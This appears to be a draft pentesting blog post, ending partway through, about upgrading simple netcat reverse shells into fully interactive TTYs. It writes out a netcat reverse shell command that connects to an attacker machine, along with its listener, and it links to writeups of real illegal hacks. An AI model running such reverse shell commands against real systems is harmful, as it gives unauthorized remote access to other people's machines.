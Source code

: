```yaml
---
title: "Upgrading Simple Shells to Fully Interactive TTYs"
slug: "upgrading-simple-shells-to-fully-interactive-ttys"
author: "ropnop"
draft: true
date: 2017-07-10
summary: "Catching a reverse shell over netcat is great...until you accidentally Ctrl-C and lose it. These techniques let you upgrade your shell to a proper TTY"
toc: true
share_img: "/images/2017/07/msfvenom_payloads-1.png"
tags: []
---
```


Every pentester knows that amazing feeling when they catch a reverse shell with netcat and see that oh-so-satisfying verbose netcat message followed by output from `id`.

And if other pentesters are like me, they also know that dreadful feeling when their shell is lost because they run a bad command that hangs and accidentally hit "Ctrl-C" thinking it will stop it but it instead kills the entire connection.

![Oops!](/images/2017/07/oops_ctrl_c.png)

Besides not correctly handling SIGINT, these"dumb" shells have other shortcomings as well:

* Some commands, like `su` and `ssh` require a proper terminal to run
* STDERR usually isn't displayed
* Can't properly use text editors like `vim`
* No tab-complete
* No up arrow history
* No job control
* Etc...

Long story short, while these shells are great to catch, I'd much rather operate in a fully interactive TTY.

I've come across some good resources that include very helpful tips and techniques for "upgrading" these shells, and wanted to compile and share in a post. Along with Pentest Monkey, I also learned the techniques from Phineas Fisher in his released videos and writeups of his illegal activities:

* [Pentest Monkey - Post Exploitation Without a TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
* [Phineas Fisher Hacks Catalan Police Union Website](https://www.youtube.com/watch?v=oI_ZhFCS3AQ#t=25m53s)
* [Phineas Fisher - Hackingteam Writeup](http://pastebin.com/raw/0SNSvyjJ)

For reference, in all the screenshots and commands to follow, I am injecting commands in to a vulnerable web server ("VICTIM") and catching shells from my Kali VM ("KALI"):

* **VICTIM IP**: 10.0.3.7
* **KALI IP**: 10.0.3.4

# Generating reverse shell commands
Everyone is pretty familiar with the traditional way of using netcat to get a reverse shell:
```bash
nc -e /bin/sh 10.0.3.4 4444
```
and catching it with:
```bash
nc -lvp 4444
```
The problem is not every server has netcat installed, and not every version of netcat has the `-e` option. 
